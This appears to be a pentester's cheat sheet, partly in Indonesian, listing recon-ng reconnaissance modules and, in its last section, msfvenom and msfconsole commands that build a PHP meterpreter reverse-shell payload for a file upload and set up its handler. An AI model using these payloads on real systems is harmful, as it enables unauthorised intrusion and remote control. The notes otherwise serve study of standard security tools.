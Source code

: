 Load module
```
modules load NAMA_MODULE
```
Module Shodan
```
 recon/locations-pushpins/shodan
```

Module host
```
recon/hosts-hosts/resolve 
recon/hosts-hosts/ipstack
```
Module domains-contacts
```
recon/domains-contacts/whois_pocs
recon/domains-contacts/pgp_search
```
Module domains-hosts
```
recon/domains-hosts/bing_domain_web 
recon/domains-hosts/brute_hosts
```
Module Interesting
```
discovery/info_disclosure/interesting_files
```

Module Web
```
recon/domains-hosts/builtwith
recon/domains-hosts/google_site_web 
```

Record
```
script record PATH
```
```
script record stop
```
Menjalankan Record
```
$ ./recon-ng -r PATH
```
Menyimpan output menggunakan spool
```
spool start
```
```
spool stop
```

#### Msfvenom & Msfconsole

File Upload
```
$ msfvenom -p php/meterpreter/reverse_tcp lhost=IP lport=4444 raw
```
Masuk Msfconsole
```
$ msfconsole
```
```
use exploit/multi/handler
```
```
set payload php/meterpreter/reverse_tcp
```
```
set lhost IP
```